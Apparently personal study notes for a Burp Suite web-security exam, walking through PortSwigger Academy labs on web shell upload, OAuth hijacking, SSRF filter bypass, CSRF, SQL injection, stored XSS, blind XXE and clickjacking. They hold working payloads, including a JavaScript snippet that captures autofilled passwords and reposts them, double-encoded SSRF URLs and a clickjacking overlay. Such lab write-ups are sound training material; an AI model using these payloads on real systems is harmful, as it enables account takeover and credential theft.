

# Burp Exam Roadtrip
## Labs
### Web shell upload via extension blacklist bypass
<b>Concepts: Load an .httacces file to allow a file with a custom extension .pws to be executed as PHP file</b>
<br><br>
The httaccess file is uploaded<br> 
<br>Upload your webshell as .pws file<br>
<br>Now inspect the source code of your account page<br>
<br>Visit the img src URL and you get the secret

### OAuth account hijacking via redirect_uri
<b>Workflow</b><br/>
Login to the portal using OAuth -> OAuth server authentication (yes) -> Portal (authenticated)  with auth code in the QS
<br><br>
In the repeater since we are already authenticated, we can see the cookie session already set
<br><br>
We can modify the redirect_uri parameter without get any error. The parameter is used to generate the redirect
<br><br>
Now redirect the request to our payload hosted into the exploit server
<br><br>
After delivered to the victim the payload, we can inspect the exploit access log to get the leaked auth code:
<br><br>
Now we can use the code to access the portal bypassing the authentication process:
https://YOUR-LABID.web-security-academy.net/oauth-callback?code=T2QW7SXUMEHWY_bpSSTnNucJRfhWhQRtbj2GQpqAINC

### SSRF with filter bypass via open redirection vulnerability
In order to solve the lab, we need to find an open redirect (https://portswigger.net/kb/issues/00500100_open-redirection-reflected) affecting the application to exploit the SSRF vulnerability.
First we can try to access the admin panel passing the URL into the body parameter, but it didn't work since a security check is in place:
<br><br>
Clicking the <b>Next product</b> link (bottom-right in the web page) we can notice that an open redirection is present (1), as reported into the server response (2)
<br><br>
As confirmation we can try to inject the query string parameter using the value highlighted:
<br><br>
Now we can proceed to exploit SSRF vulnerability providing the relative path with the QS parameter, to access the adim panel, into the stockApi parameter (1):<br>
<b>/product/nextProduct?path=http://192.168.0.12:8080/admin</b>. In the response we can find the URL to delete Carlos
<br><br>
And to solve the lab you can set the following payload:
```
stockApi=/product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos
```

### SSRF via flawed request parsing
In this lab we can take advantage of host header injection, just to recall what is the purpose of this header: https://www.rfc-editor.org/rfc/rfc7230#section-5.4
<br>First let’s try to modify the host value, we can notice that the request is blocked
<br><br>
Now we inspect the GET request providing the full path to our LAB URL, deleting the Host header, we notice that we get a valid response:
<br><br>
Since we know that the admin panel is locally accessible in the subnet 192.168.0.0/24, we can try to insert a test value in the Host parameter:
<br><br>
Here we get a timeout, but we also can notice that the Host value is used to resolve the URI provided into the GET parameter, now we can configure the Intruder to try to brute force the IP value, looking for a 200 or 302 (redirect) response.<br>
Set the payload parameter (1)
<br><br>
Then configure the payload as follows:
<br><br>
Run the Intruder (in the community it is time throttled):
<br><br>
Coming back to the repeater to modify the request according to the redirect:
<br><br>
Here we can see that posting a request to the <b>/admin/delete</b> passing the csrf token and the username parameters permit to delete a user. Modify the request according to the information we discovered and we solve the lab (see the picture in the next page). Here there is another very insecure flow, since the csrf token is transmitted even if we are not authenticated as an admin user, of course this scenario must be mitigated through an authentication mechanism. Additional information about csrf token generation can be found at https://portswigger.net/web-security/csrf/tokens 
<br><br>

### SSRF with blacklist-based input filter
Here we have a request parameter in the body, <b>stockApi</b>, that it used to verify the articles quantity present in stock:
<br><br>
We can try to access the localhost on the server:
<br><br>
We can see that there are some security mechanisms to prevent the access to localhost, same happens try to use 127.0.0.1. We can eventually try the not so well-known shorthand notation <b>127.1</b><br>
In this way we are able to bypass the security control that prevents us to access the localhost URL, and we were so lucky that the response indicates which is the URL to access the admin panel 😊
<br><br>
Trying to access the admin URL we receive again a security exception, suggesting us that another control is in place:
<br><br>
We can try to encode the admin string to bypass this control, a useful resource can be found at: https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/url-format-bypass
<br>We can try to perform an URL encoding on the admin string:
<br><br>
And we got the following payload: <b>stockApi=http://127.1/%61%64%6d%69%6e</b> 
<br>Again, we got the same security exception’s message, we can try to double URL-encode the string as follows:
<br><b>stockApi=http://127.1/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65</b>
<br><br>
This time it worked, again the we got suggestion how to delete the user carlos, that it’s actual our lab’s goal, using the following payload we can solve the lab:
<br><b>stockApi=http://127.1/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65/delete?username=carlos</b><br>
(Don’t worry if you get a HTTP 302 error into the response, check the lab web app to verify that it is solved)

### CSRF where token validation depends on request method
In this lab we know that the CSRF token depend on the request method, so first of all, as usual, we inspect the request made to change the email address once logged in the lab:
<br><br>
We can see that the email address has changed (follow the redirect to see the final response of the server), now omitting the csrf parameter in the request we get an error:
<br><br>
Try to change the request method to use GET (right click on the request body and select <b>Change request method</b>):
<br><br>
It works even deleting the csrf parameter:
<br><br>
So now we can create our malicious payload and to be hosted on the exploit server body (change the yellow value according to your Lab ID):
<br><br>
Now click Store (1) to save the payload, then you can verify your exploit (2), then to solve the lab delivery the payload to the victim (3)


### SQL injection attack, querying the database type and version on MySQL and Microsoft
The Category parameter is injectable: find the number of columns that are returned by the query:
```
?category='+order+by+1--
```
But we get an internal server error, let’s try using another comment escape instruction (#)
<br><br>
We could infer that it is a MySQL DB and that the query returns 2 columns, looking at the page we can also infer that at least one column is textual. Try the follows payload confirm that idea:
<br><br>
Now get the DB version using the MySQL function VERSION()
<br><br>

### SQL injection attack, listing the database contents on non-Oracle databases
The category parameter is injectable
<br><br>
We can infer that the number of returned columns are 2, using the following payload:
```
?category='%20order%20by%202--
```
Looking at the response we can even infer that at least one column is a textual one, the following payload confirm that idea:
<br><br>
We can retrieve the DBMS version using the VERSION() function:
<br><br>
And we can get the list of all the user’s tables using the following view:
<br><br>
Using the following payload, we can get the name of the table’s columns
<br><br>
Now we can get all the entries for the user tables as follows:
<br><br>
Following you can find a useful link about Postgresql system queries: https://razorsql.com/articles/postgresql_system_queries.html 

### Exploiting cross-site scripting to capture passwords
This is actually a funny and a challenging lab. Taking advantage of a XSS stored vulnerability we have to access the blog as administrator user. We know that the comment field is injectable, lets analyze the flow:
<br><br>

First of all I thought to use the classic approach: stealing authentication cookie, but since the lab's cookie is HttpOnly we cannot access it through JS:
<br><br>
Reading some hints we knew that if we set 2 inputs fields (username and password) in the comments of a post they will be filled automatically by the lab system before to execute our payload. Since my Burp version is Community I even cannot use Burp Collaborator, so the scenario I set it is to craft a payload that will submit a new comment containing the username and password collected whene a user (in this scenario of course this event is automated) visit the infected post. Following is the payload we will use in the comment field:
```
Username<input name=username id=username>
Password<input type=password id=password name=password onchange="pwn_usr()">
<script>
function pwn_usr() {
 var labId= '0aca008b0490873dc0c3c76000c0002a'; 
 var csrf = document.getElementsByName("csrf")[0].value;
 var secret_ = document.getElementById("username").value + ':' + document.getElementById("password").value;
 fetch('https://' + labId + '.web-security-academy.net/post/comment', {
   method: 'POST',
   body: 'csrf=' + csrf + '&postId=1&comment=This is amazing!<div style=visibility:hidden>' + secret_ + '</div>&name=zinzloun&email=zinzloun@libero.it&website='
  });
 };
</script>
```
When the password field is compiled the pwn_usr function is invoked, the function will create a new comment in the post with ID 3. Here we use the fetch JS API (https://www.w3schools.com/jsref/api_fetch.asp, remember that fetch is not supported in Internet Explorer 11 and earlier), to make the things a little bit obfuscated we will save the credentials in hidden div.
Lets create the malicious post comment:
<br><br>
Just waiting a minute and then visiting the comments in the post id number 3 we can verify that our exploit worked:
<br><br>
We can retrive the administrator password in the source of the page

### Blind XXE with out-of-band interaction via XML parameter entities
In this lab the application does not return the values of any defined external entities in its responses, and so direct retrieval of server-side data is not possible as shown below:
<br><br>
Then we have to proceed performing a blind out-of-band injection using XML parameter entities (more information: https://portswigger.net/web-security/xxe/blind). Using the following payload we can solve the lab:
<br><br>
Since I use the Community version I cannot take advantage of the Collaborator feature to obtain a valid subdomain, but we can refer to the domain <b>burpcollaborator.net</b> as our XML parameter value, even if we won't see the requests arriving to the server (DNS and HTTP), the lab is solved anyway.
Note that even if the we get an error into the response the call to the collaborator site is performed.

### Exploiting blind XXE to exfiltrate data using a malicious external DTD
 This lab has a "Check stock" feature that parses XML input but does not display the result, to solve the lab, exfiltrate the contents of the /etc/hostname file. 
 Trying a classic XXE injection confirm that we have to perform a blind XXE:
<br><br>
We are going to use the exploit server to store a malicious DTD:
<br><br> 
The body contains the DTD (2) that performs the following:

1. Defines an XML parameter entity called file, containing the contents of the /etc/hostname file.
2. Defines an XML parameter entity called eval, containing a dynamic declaration of another XML parameter entity called exfil. The exfil entity will be evaluated by making an HTTP request to the exploit LAB web server root containing the value of the file entity within the URL query string.
3. Uses the eval entity, which causes the dynamic declaration of the exfil entity to be performed.
4. Uses the exfil entity, so that its value is evaluated by requesting the specified URL.

Then we will invoke the external DTD URL (1) from within the in-band XXE payload:
<br><br>

Then inspecting the exploit LAB server access log we get the value of the hostname in the URL query string:
<br><br>

### Lab: Multistep clickjacking
The goal of this lab is to trick a victim to delete her account, while performing another action on the decoy web site (the exploit website). This time I had to follow the provided solution since, honestly I did not know this vulnerability before, but hey, we are here to learn 😊.
<br>Following there is the payload I used, I had to adjust the <i>top and left</i> values for both the div to properly overlay the delete button and the confirmation button.<br>
```
<style>
	iframe {
		position:relative;
		width:500px;
		height: 700px;
		opacity: 0.0001;
		z-index: 2;
	}
   .firstClick, .secondClick {
		position:absolute;
		top:500px;
		left:50px;
		z-index: 1;
	}
   .secondClick {
		top:290px;
		left:215px;
	}
</style>
<div class="firstClick">Click me first</div>
<div class="secondClick">Click me next</div>
<iframe src="https://0aa0009e039547a5c5c92d6400820028.web-security-academy.net/my-account"></iframe>
```
Reference: https://portswigger.net/web-security/clickjacking

### CORS vulnerability with trusted insecure protocols
This is a challenging LAB, at least for me, since I had problem to understand how CORS related concepts work clearly.<br>
We have the following information:
1. This website has an insecure CORS configuration in that it trusts all subdomains 
1. The trust relation is not protocol aware

To solve the lab we have to get the administrator's API key expolit CORS vulnerability using Javascript, so we can infer that we need to implement some asynchronous mechanism.<br>
First of we have to find the insecure CORS configuration, inspecting the history in Burp proxy we can see that a response to the <b>accountDetails request</b> is in a JSON format, moreover we can notice that in the response the <b>Access-Control-Allow-Credentials</b> is set, that suggests that an asynchronous request could be in place.
-- 55 --
Lets try to test the CORS security context adding the <b>origin</b> header to the request, if we get back the origin value in the <b>Access-Control-Allow-Origin</b> it means that the response can be shared with requesting code from the given origin. The use cases tested are the following:
+ Origin: null -> fails: Access-Control-Allow-Origin is returned
+ Origin: https://www.google.it -> fails as above
+ Origin: https://test.LAB-ID..web-security-academy.net -> <b>OK</b>: the value is reflected into Access-Control-Allow-Origin response header
-- 56 --
So we know that we can issue cross-site request from a subdomain. Now we have to find a vulnerability to be exploited through a valid sunbdomain, again lets inspect the Burp history while we navigate the lab. 
-- 57 --
From the above image we can see that a call to the <b>stock subdomain</b> is performed to check the stock amount, then sending the request to the Repeater we can try to verify if the QS parameter are injectable:
-- 58 --
So the productId parameter is prone to XSS attacks, we can take advantages of this vulnerability to exploit the CORS security lack. First of all we will test if we are able to get the account details information for the current user from the vulnerable stock web page hosted in the lab subdomain. We will delivery the following payload to try to get the account details for our current logged user (we must use credentials: 'include' in the fetch request to pass the credentials).
-- 59 --


References:
+ https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Sec-Fetch-Mode
+ https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Sec-Fetch-Site
+ https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Origin
+ https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API/Using_Fetch

